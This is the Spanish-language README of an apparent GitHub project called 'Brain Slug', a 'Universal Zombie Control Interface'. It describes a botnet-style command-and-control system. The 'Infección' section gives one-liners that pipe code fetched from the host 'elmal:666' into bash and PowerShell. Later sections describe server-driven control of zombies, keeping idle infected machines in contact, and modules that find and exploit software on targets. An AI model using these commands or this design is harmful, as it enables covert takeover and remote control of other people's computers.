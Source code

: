 Brain Slug
==========

Universal Zombie Control Interface


Dev Install
-----------

.. code-block:: bash

    pipenv install


Concepto
--------

Brain Slug consta de varias partes más pequeñas:

* Un código de infección de la máquina que hace un curl | interpreteX
* Una sesión de servidor con la que se puede controla el flujo sin que el
  cliente tenga ningún tipo de lógica


Infección
~~~~~~~~~

Esta se lleva a cabo a través de un curl:

.. code-block:: bash

    curl "http://elmal:666/register" | bash

Incluso en windows 10:

.. code-block:: powershell

    curl "http://elmal:666/register" | powershell.exe


Servidor
~~~~~~~~

En el servidor se gestiona para cada cliente su estado en la ejecución.
De forma que cuando un cliente pregunte por la siguiente operación a
ejecutar el servidor se lo da de forma correcta.

A parte de ejecutar operaciones el servidor siempre debe enviar la
siguiente instrucción para que el agente pueda funcionar.

Las operaciones pueden enviar como respuesta a las ejecuciones el
resultado de la evaluación de la operación al servidor para que se
guarden en el servidor. O pueden enviar otra orden para que se guarden
en la memoría del cliente. De esta forma el estado esta compartido entre
ambos sistemas pero el control de flujo esta completamente del lado del
servidor.

Todo el código ejecutado desde el servidor debe estar traspilado al
interprete del cliente, en una primera versión se hará un recetario con
plantillas como validar la prueba de concepto.


Ideas secundarias
-----------------

Se puede tener una app de parking con los clientes zombies para los que
no se tenga todavía trabajo de forma que ocupen pocos recursos y nos
aseguremos que no se pierde el contacto con los mismos.

Se pueden tener diferentes flujos y applicaciones de forma que un zombie
pueda ejecutar diferentes "caminos" de ejecución dependiendo de su
naturaleza. Por ejemplo, una applicacione que detecte si existe un
software en la máquina objetivo y otra aplicación especializada en su
explotación.

Se pueden tener meta aplicaciones que orquesten multi tareas en un
zombie o multi zombie. Para esto se necesita abrir un fork en la máquina
remota que instancie un nuevo zombie.
